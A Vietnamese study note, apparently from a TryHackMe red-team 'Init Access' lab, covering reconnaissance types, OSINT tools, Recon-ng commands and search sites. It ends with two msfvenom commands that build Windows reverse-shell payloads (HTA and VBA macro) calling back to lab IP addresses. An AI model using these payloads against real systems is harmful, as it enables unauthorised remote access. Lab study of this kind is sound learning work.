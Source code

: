 ```yaml
---
template: overrides/blog.html
icon: material/plus-circle
title: Init Access
description: >
  
search:
  exclude: true
hide:
  - feedback

links:
  - setup/setting-up-site-search.md#built-in-search-plugin
  - insiders/index.md#how-to-become-a-sponsor
tags:
  - THM-Init Access 
---
```


# __Init Access__

---

Có một câu nói rất hay "Biết người biết ta, trăm trận trăm thắng". Đầu tiên khi ta bước vào giai đoạn tấn công một thứ gì đó thì việc hiểu về nó thực sự cần thiết. Bạn có thể tham khảo một vài kĩ thuật do thám từ vị trí của Redteam như sau:


Types of reconnaissance activities
WHOIS and DNS-based reconnaissance
Advanced searching
Searching by image
Google Hacking
Specialized search engines
Recon-ng
Maltego

## __Types of reconnaissance activities (các loại trinh sát)__

Trinh sát có thể chia làm 2 loại:

1. Trinh sát bị động: Có thể thực hiện bằng việc quan sát những gì có sẵn ở mục tiêu hoặc ở bên thứ ba cung cấp (dùng các kĩ thuật như OSINT để thu thập thông tin, ... whois, nslookup, dig, shodan.io, DNSDumpster,...)
2. Trinh sát chủ động: Cần chủ động, tương tác với mục tiêu nhằm xem phản ứng của nó (các công cụ được dùng như netcat, ping, traceroute, telnet, ...). Trong trinh sát chủ động, có thể chia làm 2 nhánh tiếp cận sau:

- Trinh sát từ bên ngoài: Được tiến hành trinh sát từ bên ngoài mạng nội bộ của mục tiêu.
- Trinh sát từ bên trong: Được tiến hành trinh sát từ bên trong mạng nội bộ của mục tiêu 



---

Recon-ng là một framework giúp tự động hóa công việc OSINT. Nó sử dụng các mô-đun từ nhiều tác giả khác nhau và cung cấp vô số chức năng. Một số mô-đun yêu cầu các phím để hoạt động; khóa cho phép mô-đun truy vấn API trực tuyến có liên quan. Trong nhiệm vụ này, chúng tôi sẽ minh họa bằng cách sử dụng Recon-ng trong thiết bị đầu cuối.


marketplace search KEYWORDđể tìm kiếm các mô-đun có sẵn với từ khóa .
marketplace info MODULEđể cung cấp thông tin về mô-đun được đề cập.
marketplace install MODULEđể cài đặt mô-đun được chỉ định vào Recon-ng.
marketplace remove MODULEđể gỡ cài đặt mô-đun được chỉ định.

tra ip ngược: https://viewdns.info/

https://search.censys.io/


https://www.google.com/advanced_search


reverse shell for window: msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta


reverse shell for window with vba: msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.18.80.57 LPORT=443 -f vba 